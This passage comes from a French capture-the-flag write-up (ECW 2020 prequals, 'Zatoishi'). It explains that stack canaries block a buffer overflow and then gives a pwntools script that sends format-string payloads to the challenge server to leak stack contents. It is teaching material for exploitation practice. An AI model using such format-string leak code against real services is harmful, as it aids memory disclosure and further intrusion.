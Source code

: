 Les buffer overflows sont donc possible, mais les canaris sont activés.
Tentons les format strings:

![](/assets/images/ECW_PREQUALS_2020/Zatoishi/3.png)

Vu que l'on ne peut pas encore exploit les buffer overflow (le canari nous en empêche),il va falloir se concentrer sur les formats strings. Première étape, leak la stack:

```python
from pwn import *
import re
import binascii

leaked_stack = b""
leak = True
if leak:
    r = remote('challenge-ecw.fr', 2020, level="error")
    r.recvrepeat(0.1)
    i = 1
    while i < 120:
        print(i, "=================")
        payload = 'HELO %'+'%d'%(i)+'$p'
        r.sendline(payload)
        data = r.recvrepeat(0.1)
        print(data)
        try:
            leaked = re.findall(b'Hello (.*?)\n',data)[0]
            if leaked == b"(nil)":
                leaked_stack += b"\x00"*8
            else:
                leaked_stack += p64(int(leaked,16))
            print(leaked_stack)
            i+=1
        except:
            continue

    r.close()
i = 1
while len(leaked_stack) > 8:
    print(i, binascii.hexlify(leaked_stack[:8][::-1]))
    leaked_stack = leaked_stack[8:]
    i+=1
```
